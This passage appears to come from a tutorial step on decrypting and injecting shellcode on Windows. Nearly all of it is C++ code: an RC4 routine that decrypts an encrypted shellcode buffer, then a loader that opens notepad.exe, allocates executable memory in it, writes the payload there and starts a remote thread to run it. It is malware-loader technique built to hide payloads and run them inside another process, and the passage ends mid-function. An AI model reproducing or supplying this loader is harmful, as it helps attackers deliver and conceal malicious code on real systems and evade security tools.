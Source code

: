 ### **Step 3: Decrypt and Inject the Shellcode**

In your main C++ file, you'll include the `toinclude.h` file and use the RC4 decryption algorithm to decode the shellcode before injecting it into the target process.

```c++
#include <windows.h>
#include <iostream>
#include "toinclude.h"

// RC4 Decryption Function
void rc4_decrypt(unsigned char* data, size_t data_len, unsigned char* key, size_t key_len) {
    unsigned char S[256];
    unsigned char K[256];
    unsigned char temp;
    int i, j = 0;

    // Initialize S and K
    for (i = 0; i < 256; i++) {
        S[i] = i;
        K[i] = key[i % key_len];
    }

    // Initial Permutation of S
    for (i = 0; i < 256; i++) {
        j = (j + S[i] + K[i]) % 256;
        temp = S[i];
        S[i] = S[j];
        S[j] = temp;
    }

    // RC4 Decryption
    i = j = 0;
    for (size_t n = 0; n < data_len; n++) {
        i = (i + 1) % 256;
        j = (j + S[i]) % 256;
        temp = S[i];
        S[i] = S[j];
        S[j] = temp;
        data[n] ^= S[(S[i] + S[j]) % 256];
    }
}

int main() {
    // Decrypt the shellcode
    unsigned char decrypted_shellcode[BUF_SIZE];
    memcpy(decrypted_shellcode, shellcode, BUF_SIZE);
    rc4_decrypt(decrypted_shellcode, BUF_SIZE, key, sizeof(key) - 1);  // -1 to exclude null terminator

    // Proceed with the injection steps as before, but use decrypted_shellcode

    // (Example) Injecting into a target process
    DWORD processId = FindProcessId(L"notepad.exe");
    HANDLE hProcess = OpenProcess(PROCESS_VM_OPERATION | PROCESS_VM_WRITE | PROCESS_CREATE_THREAD, FALSE, processId);
    LPVOID pRemoteCode = VirtualAllocEx(hProcess, NULL, BUF_SIZE, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(hProcess, pRemoteCode, decrypted_shellcode, BUF_SIZE, NULL);
    CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pRemoteCode, NULL, 0, NULL);

    // Cleanup
    CloseHandle(hProcess);

```